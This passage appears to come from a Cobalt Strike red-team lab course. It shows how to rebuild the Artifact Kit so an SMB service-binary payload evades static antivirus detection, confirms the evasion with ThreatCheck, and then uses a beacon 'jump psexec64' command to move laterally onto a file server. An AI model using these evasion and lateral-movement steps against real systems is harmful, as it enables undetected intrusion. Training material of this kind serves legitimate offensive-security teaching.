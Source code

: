 
Rebuild the Artifact Kit and regenerate the payloads in CS.  The SMB service binary will no longer be detected and will allow us to jump to the file server.
```
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
[+] No threat found!
[*] Run time: 1.17s

beacon> jump psexec64 fs.dev.cyberbotic.io smb
Started service 96126c2 on fs.dev.cyberbotic.io

[+] established link to child beacon: 10.10.122.15
```
  

Simply unload the CNA from the Script Manager if you want to revert back to the default payloads.

  

  Each payload variant will likely have different static signatures that you need to remove through analysis and experimentation.